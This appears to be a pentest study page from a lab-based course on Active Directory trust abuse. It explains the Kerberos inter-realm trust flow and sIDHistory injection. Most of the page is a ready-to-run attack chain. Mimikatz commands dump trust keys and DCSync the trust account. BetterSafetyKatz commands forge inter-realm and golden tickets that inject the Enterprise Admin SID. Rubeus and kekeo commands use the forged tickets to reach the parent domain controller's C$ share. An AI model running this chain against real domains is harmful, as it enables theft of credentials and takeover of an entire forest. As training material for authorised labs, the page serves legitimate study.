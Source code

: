 # Trusts

## Trust Flow

The Diagram below shows how Client from trusted domain can ask for access to other Domain's service.

We can see that in order to allow access to the service hosted on Domain B, a TGT is returned within a TGS-REP signed with the **Inter-Realm Trust Key**.

<img src="../../.gitbook/assets/file.excalidraw (2).svg" alt="" class="gitbook-drawing">

1. Client on behalf of the user send an encrypted (with user's AES Keys) timestamp to the DC (maybe child DC) - AS-REQ
2. DC (Child DC) then validates it and responds with a TGT - AS-REP
3. Then when the machine requests for a TGS i.e, SPN of a different domain (Domain B/Parent Domain)&#x20;
4. **Since the DC (Child DC) can't issue it directly, it'll respond with something called as Inter-realm TGT encrypted with a trust key i.e, since the DC (Child DC) doesn't have direct access to service (SPN) that is requested by the machine and if the SPN is in it's realm (trust zone) then it'll issue the Inter-realm TGT encrypted with a Trust Key**
5. <mark style="color:red;">Then machine sends this Inter-realm TGT to the other domain (Domain B/Parent DC)</mark>
   1. <mark style="color:red;">Here the DC only checks if it can decrypt the Inter-realm TGT with the Trust key it has, so if an attacker can craft an inter-realm TGT with the trust key, they can request TGS for any service on the forest.</mark>
6. Then machine then receives the requested TGS

Same explanation with diff diag: [#trust-flow-inter-realm-tgt](../../misc/theory/concepts.md#trust-flow-inter-realm-tgt "mention")

## **sIDHistory Injection:**&#x20;

* Priv Esc a Domain Admin to Enterprise Admin
* sIDHistory is a user attribute designed for scenarios where a user is moved from one domain to another. When a user's domain is changed, they get a new SID and the old SID is added to sIDHistory.
* sIDHistory can be abused in two ways of escalating privileges within a forest:
  * krbtgt hash of the child
  * Trust tickets

## Exploitation

It is possible to exploit the TGS REQ (marked red in the diagram above) by forging new TGT using the trust key.

### Get the trust key

The trust key is required to forge the Inter-Realm TGT. - To be executed on the DC (Child DC/Domain we have control over)

{% code overflow="wrap" %}
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'   # Here dcorp\mcrop$ is the Trust account, so it's NTLM hash would be the trust key
```
{% endcode %}

### Forge the Inter-Realm TGT

Note that krbtgt can be used instead of the trust key.

{% code overflow="wrap" %}
```powershell
# Child to parent 
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /rc4:e9ab2e57f6397c19b62476e98e9521ac /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\trust_tkt.kirbi" "exit"

# Using krbtgt hash - No need to request for tgs later
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

# Across Forest
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
{% endcode %}

| Options   | Text                                                                      |
| --------- | ------------------------------------------------------------------------- |
| /domain:  | FQDN of the current domain                                                |
| /sid:     | SID of the current domain                                                 |
| /sids:    | SID to be injected to the SID History - 519 is the "Enterprise Admin" RID |
| /rc4:     | RC4 of the trust key                                                      |
| /krbtgt:  | krbtgt hash can be used instead of the Trust Key                          |
| /user:    | User to impersonate                                                       |
| /service: | Target service in the parent domain                                       |
| /target:  | FQDN of the parent domain                                                 |
| /ticket:  | Path to save the ticket                                                   |

### Request the TGS and pass it

{% code overflow="wrap" %}
```powershell
Rubeus.exe asktgs /ticket:C:\AD\Tools\trust_tkt.kirbi /service:cifs/mcorp-dc.moneycorp.local /dc:mcorpdc.moneycorp.local /ptt

ls \\mcorp-dc.moneycorp.local\c$

# Using kekeo
# Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket.
.\asktgs.exe C:\AD\Tools\trust_tkt.kirbi CIFS/mcorp-
dc.moneycorp.local
# Use the TGS to access the targeted service.
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirbi
ls \\mcorp-dc.moneycorp.local\c$

# Tickets for other services (like HOST and RPCSS for WMI, HTTP for PowerShell Remoting and WinRM) can be created as well.
```
{% endcode %}
